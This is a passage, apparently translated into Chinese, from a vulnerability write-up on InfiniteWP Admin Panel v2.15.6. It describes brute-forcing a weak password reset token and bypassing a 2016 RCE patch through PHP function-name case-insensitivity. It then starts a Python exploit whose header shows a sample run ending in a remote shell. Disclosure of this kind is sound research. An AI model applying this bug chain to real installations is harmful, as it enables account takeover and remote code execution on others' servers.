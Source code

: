 通过创建一个包含所有可能的 resetHash 值的字典列表，可以猜测出正确的密码重置令牌并重置受害者的密码。在 24 小时的时间窗口内，攻击最多可以尝试 100 万次（密码重置令牌在 24 小时后失效），这是一个合理的时机。

在概念验证测试中，成功利用这些问题所需的平均总时间为 1 小时；也就是说，根据具体的网络速度 / 拥堵 / 配置和微时间调用输出，时间可能会有所不同。

此时攻击者能够重置受害者的密码并获得 Infinite WP 管理面板的访问权限，接下来的漏洞将介绍如何在主机上实现经过验证的远程代码执行。

2. 通过 "addFunctions" 实现远程代码执行（绕过 "checkDataIsValid"）。

2016 年，在 Infinite WP Admin Panel 2.8.0 中发现了一个远程代码执行漏洞，该漏洞影响了 / ajax.php API 端点。此后详情公开在 https://packetstormsecurity.com/files/138668/WordPress-InfiniteWP-Admin-Panel-2.8.0-Command-Injection.html。

如同咨询中所写的那样，通过添加调用函数 checkDataIsValid($action)(controller/panelRequestManager.php 第 3782 行) 来修复该漏洞：

```
private static function checkDataIsValid($action){
    //Restricted function access
    $functions = array('addFunctions');
    if(!in_array($action, $functions)){
        return true;
    }
    return false;
}
```

然而这种检查并没有考虑到 PHP 函数名是不区分大小写的：通过使用 addfunctions（注意小写的 "f"）可以绕过补丁，实现远程代码执行。

**EPX：**

```
#!/usr/bin/env python3
# coding: utf8
#
# exploit code for unauthenticated rce in InfiniteWP Admin Panel v2.15.6
#
# tested on:
# - InfiniteWP Admin Panel v2.15.6 released on August 10, 2020
#
# the bug chain is made of two bugs:
# 1. weak password reset token leads to privilege escalation
# 2. rce patch from 2016 can be bypassed with same payload but lowercase
#
# example run:
# $ ./iwp_rce.py -e 'a@b.c' -rh http://192.168.11.129/iwp -lh 192.168.11.1
# 2020-08-13 14:45:29,496 - INFO - initiating password reset...
# 2020-08-13 14:45:29,537 - INFO - reset token has been generated at 1597322728, starting the bruteforce...
# 2020-08-13 14:45:29,538 - INFO - starting with uid 1...
# 2020-08-13 14:50:05,318 - INFO - tested 50000 (5.0%) hashes so far for uid 1...
# 2020-08-13 14:54:49,094 - INFO - tested 100000 (10.0%) hashes so far for uid 1...
# 2020-08-13 14:59:15,282 - INFO - tested 150000 (15.0%) hashes so far for uid 1...
# 2020-08-13 15:04:19,933 - INFO - tested 200000 (20.0%) hashes so far for uid 1...
# 2020-08-13 15:08:55,162 - INFO - tested 250000 (25.0%) hashes so far for uid 1...
# 2020-08-13 15:13:38,524 - INFO - tested 300000 (30.0%) hashes so far for uid 1...
# 2020-08-13 15:15:43,375 - INFO - password has been reset, you can now login using a@b.c:msCodWbsdxGGETswnmWJyANE/x2j6d9G
# 2020-08-13 15:15:43,377 - INFO - removing from the queue all the remaining hashes...
# 2020-08-13 15:15:45,431 - INFO - spawning a remote shell...
# /bin/sh: 0: can't access tty; job control turned off
# $ id
# uid=1(daemon) gid=1(daemon) groups=1(daemon)
# $ uname -a
# Linux debian 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
# $ exit
# *** Connection closed by remote host ***
# 
# polict, 13/08/2020
import sys, time
```